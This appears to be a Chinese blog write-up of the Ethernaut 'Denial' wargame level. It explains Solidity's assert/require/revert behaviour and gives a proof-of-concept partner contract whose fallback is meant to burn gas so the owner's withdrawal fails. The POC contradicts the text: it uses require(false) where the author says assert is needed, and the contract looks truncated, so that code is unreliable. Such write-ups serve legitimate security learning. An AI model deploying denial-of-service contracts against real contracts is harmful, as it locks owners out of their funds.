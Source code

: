 # Denial

从github的wp上摘录下来的。

|            |                                    |                                                              |                                                           |                                                           |
| ---------- | ---------------------------------- | ------------------------------------------------------------ | --------------------------------------------------------- | --------------------------------------------------------- |
| expression | syntax                             | effect                                                       | OPCODE                                                    |                                                           |
| throw      | `if (condition) { throw; }`        | reverts all state changes and deplete gas                    | version<0.4.1: INVALID OPCODE - 0xfe, after: REVERT- 0xfd | deprecated in version 0.4.13 and removed in version 0.5.0 |
| assert     | `assert(condition);`               | reverts all state changes and depletes all gas               | INVALID OPCODE - 0xfe                                     |                                                           |
| revert     | `if (condition) { revert(value) }` | reverts all state changes, allows returning a value, refunds remaining gas to caller | REVERT - 0xfd                                             |                                                           |
| require    | `require(condition, "comment")`    | reverts all state changes, allows returning a value, refunds remaining gas to calle | REVERT - 0xfd                                             |                                                           |

这题很明显就是构造partner合约的fallback，让：

> If you can deny the owner from withdrawing funds when they call withdraw() (whilst the contract still has funds) you will win this level.

这题我一开始还是学的不够好，solidity基础不扎实，因为基本上我自己不怎么区分require和assert这样的。上面的列表已经给出了，但其实上就是，拜占庭版本之前，require和assert确实区别不大，都是恢复状态，耗尽gas。而在拜占庭版本之后，require不再耗尽gas了，而是refunds remaining gas to calle。

回到这一题上：

```javascript
    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint amountToSend = address(this).balance.div(100);
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call.value(amountToSend)("");
        owner.transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = now;
        withdrawPartnerBalances[partner] = withdrawPartnerBalances[partner].add(amountToSend);
    }
```

先是call，然后transfer，之所以我用require不行，就在于transfer里出现异常会回退，而call这样的出现异常会返回false，下面的仍然会执行，因此想让下面的transfer出错，就要把gas耗尽，因此要用assert而不能用require。POC：

```javascript
//SPDX-License-Identifier: UNLICENSED

pragma solidity ^0.6.0;

interface Denial {

    function setWithdrawPartner(address _partner) external ;

    // withdraw 1% to recipient and 1% to owner
    function withdraw() external ;
    // convenience function
    function contractBalance() external view returns (uint) ;
}

contract Feng {
    Denial constant private target = Denial(0x47D3b14124BC946e5D102367F92B653DCb36d14d);
    fallback() external payable{
        //assert(false);
        require(false);
    }
    constructor() public {
        target.setWithdrawPartner(address(this));
    }
```